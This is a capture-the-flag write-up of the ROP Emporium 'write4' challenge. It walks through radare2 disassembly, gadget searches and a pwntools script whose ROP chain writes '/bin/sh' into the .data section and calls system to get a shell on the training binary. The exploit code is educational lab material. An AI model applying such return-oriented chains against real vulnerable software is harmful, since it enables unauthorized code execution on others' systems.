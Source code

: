# write4

Downloading, unzipping, and running the [challenge file](https://ropemporium.com/binary/write4.zip) gives us roughly the same as previous challenges:

```sh
$ ./write4
write4 by ROP Emporium
64bits

Go ahead and give me the string already!
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[1]    7073 segmentation fault (core dumped)  ./write4
```

We can skip right to examining the `pwnme` and `usefulFunction` functions:
```asm
$ r2 -A write4
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
[x] Type matching analysis for all functions (afta)
[x] Use -AA or aaaa to perform additional experimental analysis.
 -- Welcome back, lazy human!
[0x00400650]> pd @ sym.pwnme
/ (fcn) sym.pwnme 82
|   sym.pwnme ();
|           ; var char *s @ rbp-0x20
|           ; CALL XREF from sym.main (0x40079f)
|           0x004007b5      55             push rbp
|           0x004007b6      4889e5         mov rbp, rsp
|           0x004007b9      4883ec20       sub rsp, 0x20
|           0x004007bd      488d45e0       lea rax, [s]
|           0x004007c1      ba20000000     mov edx, 0x20               ; 32 ; size_t n
|           0x004007c6      be00000000     mov esi, 0                  ; int c
|           0x004007cb      4889c7         mov rdi, rax                ; void *s
|           0x004007ce      e82dfeffff     call sym.imp.memset         ; void *memset(void *s, int c, size_t n)
|           0x004007d3      bfe0084000     mov edi, str.Go_ahead_and_give_me_the_string_already ; 0x4008e0 ; "Go ahead and give me the string already!" ; const char *s
|           0x004007d8      e8f3fdffff     call sym.imp.puts           ; int puts(const char *s)
|           0x004007dd      bf09094000     mov edi, 0x400909           ; const char *format
|           0x004007e2      b800000000     mov eax, 0
|           0x004007e7      e804feffff     call sym.imp.printf         ; int printf(const char *format)
|           0x004007ec      488b157d0820.  mov rdx, qword [obj.stdin]  ; [0x601070:8]=0 ; FILE *stream
|           0x004007f3      488d45e0       lea rax, [s]
|           0x004007f7      be00020000     mov esi, 0x200              ; 512 ; int size
|           0x004007fc      4889c7         mov rdi, rax                ; char *s
|           0x004007ff      e81cfeffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
|           0x00400804      90             nop
|           0x00400805      c9             leave
\           0x00400806      c3             ret
/ (fcn) sym.usefulFunction 17
|   sym.usefulFunction ();
|           0x00400807      55             push rbp
|           0x00400808      4889e5         mov rbp, rsp
|           0x0040080b      bf0c094000     mov edi, str.bin_ls         ; 0x40090c ; "/bin/ls" ; const char *string
|           0x00400810      e8cbfdffff     call sym.imp.system         ; int system(const char *string)
|           0x00400815      90             nop
|           0x00400816      5d             pop rbp
\           0x00400817      c3             ret
            0x00400818      0f1f84000000.  nop dword [rax + rax]
            ;-- usefulGadgets:
            0x00400820      4d893e         mov qword [r14], r15
            0x00400823      c3             ret
            0x00400824      662e0f1f8400.  nop word cs:[rax + rax]
            0x0040082e      6690           nop
```
There's a `usefulGadgets` section, but that's jumping ahead a tiny bit.

Once again, there's a `system` call we can make use of, but jumping directly to `usefulFunction` will call `system` with the arguments `/bin/ls` and isn't going to help us. Last time we were able to just nicely find a `/bin/cat flag.txt` string hanging out in the binary. Let's search the binary for strings again:

```asm
[0x00400650]> iz
000 0x000008b8 0x004008b8  22  23 (.rodata) ascii write4 by ROP Emporium
001 0x000008cf 0x004008cf   7   8 (.rodata) ascii 64bits\n
002 0x000008d7 0x004008d7   8   9 (.rodata) ascii \nExiting
003 0x000008e0 0x004008e0  40  41 (.rodata) ascii Go ahead and give me the string already!
004 0x0000090c 0x0040090c   7   8 (.rodata) ascii /bin/ls
```

Nope nothing that easy this time. However, let's take a look at that `usefulGadgets` section:

```asm
            ;-- usefulGadgets:
            0x00400820      4d893e         mov qword [r14], r15
            0x00400823      c3             ret
```

If we can pop values into r14 and r15, that gadget should let us write arbitrary values. Let's see if we get lucky with another gadget:

```asm
[0x00400650]> /R pop r14
  0x0040088c               415c  pop r12
  0x0040088e               415d  pop r13
  0x00400890               415e  pop r14
  0x00400892               415f  pop r15
  0x00400894                 c3  ret

  0x0040088d                 5c  pop rsp
  0x0040088e               415d  pop r13
  0x00400890               415e  pop r14
  0x00400892               415f  pop r15
  0x00400894                 c3  ret

  0x0040088f                 5d  pop rbp
  0x00400890               415e  pop r14
  0x00400892               415f  pop r15
  0x00400894                 c3  ret
```

Well there we go :)

So what we want to do is find a place in memory that's writeable, put the string `/bin/sh` or perhaps `/bin/cat flag.txt` into that address, and then put the address of that string into rdi so that `system` will be called with that string as its argument.

Let's start by picking a place to put our argument string. Printing out the sections:

```asm
[0x00400746]> iS
[Sections]
00 0x00000000     0 0x00000000     0 ----
01 0x00000238    28 0x00400238    28 -r-- .interp
02 0x00000254    32 0x00400254    32 -r-- .note.ABI_tag
03 0x00000274    36 0x00400274    36 -r-- .note.gnu.build_id
04 0x00000298    48 0x00400298    48 -r-- .gnu.hash
05 0x000002c8   288 0x004002c8   288 -r-- .dynsym
06 0x000003e8   116 0x004003e8   116 -r-- .dynstr
07 0x0000045c    24 0x0040045c    24 -r-- .gnu.version
08 0x00000478    32 0x00400478    32 -r-- .gnu.version_r
09 0x00000498    96 0x00400498    96 -r-- .rela.dyn
10 0x000004f8   168 0x004004f8   168 -r-- .rela.plt
11 0x000005a0    26 0x004005a0    26 -r-x .init
12 0x000005c0   128 0x004005c0   128 -r-x .plt
13 0x00000640     8 0x00400640     8 -r-x .plt.got
14 0x00000650   594 0x00400650   594 -r-x .text
15 0x000008a4     9 0x004008a4     9 -r-x .fini
16 0x000008b0   100 0x004008b0   100 -r-- .rodata
17 0x00000914    68 0x00400914    68 -r-- .eh_frame_hdr
18 0x00000958   308 0x00400958   308 -r-- .eh_frame
19 0x00000e10     8 0x00600e10     8 -rw- .init_array
20 0x00000e18     8 0x00600e18     8 -rw- .fini_array
21 0x00000e20     8 0x00600e20     8 -rw- .jcr
22 0x00000e28   464 0x00600e28   464 -rw- .dynamic
23 0x00000ff8     8 0x00600ff8     8 -rw- .got
24 0x00001000    80 0x00601000    80 -rw- .got.plt
25 0x00001050    16 0x00601050    16 -rw- .data
26 0x00001060     0 0x00601060    48 -rw- .bss
27 0x00001060    52 0x00000000    52 ---- .comment
28 0x00001ae2   268 0x00000000   268 ---- .shstrtab
29 0x00001098  1896 0x00000000  1896 ---- .symtab
30 0x00001800   738 0x00000000   738 ---- .strtab
```
There are a few sections marked `rw` that we can write to. Writing to either the `dynamic`, `got`, or `got.plt` sections are likely to interfere with dynamic linking and program execution.
We could *potentially* get away with writing to the `init_array` or `fini_array` sections because they're related to program initialization and termination and we no longer really care about that.
Luckily we don't need to bother with that as the `data` section will do just fine.
The `data` section is where global variables are stored, and therefore has to be `rw`. Let's see what's currently in it:

```asm
[0x00400746]> px 16 @ 0x00601050
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x00601050  0000 0000 0000 0000 0000 0000 0000 0000  ................
```

We can see that it's only 16 bytes long from the previous list.
This is a fairly contrived challenge in that there's nothing currently in the data section and it's perfectly sized for our string.

Finally we look for a `pop rdi`:

```asm
[0x00400746]> /R pop rdi
  0x00400893                 5f  pop rdi
  0x00400894                 c3  ret
```

And now we can craft our exploit:

```python
from pwn import *

prog = process("./write4")

system_call = p64(0x00400810)

payload = "A" * 40

payload += p64(0x400890)    # pop r14; pop r15; ret
payload += p64(0x00601050)  # address in data
payload += ("/bin/sh\0")
payload += p64(0x400820)    # mov qword ptr [r14], r15; ret
payload += p64(0x400893)    # pop rdi; ret
payload += p64(0x00601050)  # our address in data
payload += system_call

print prog.recvuntil(">")
prog.clean()

prog.sendline(payload)

prog.interactive()
```

This time we use the `prog.interactive()` function so that when `/bin/sh` is called, we're dropped into the new shell. We could have also used the `/bin/cat flag.txt` string and then we wouldn't need to interact with the new shell:

```sh
$ python exploit.py
[+] Starting local process './write4': pid 14219
write4 by ROP Emporium
64bits

Go ahead and give me the string already!
>
[*] Switching to interactive mode
$ cat flag.txt
ROPE{a_placeholder_32byte_flag!}
```

Success!
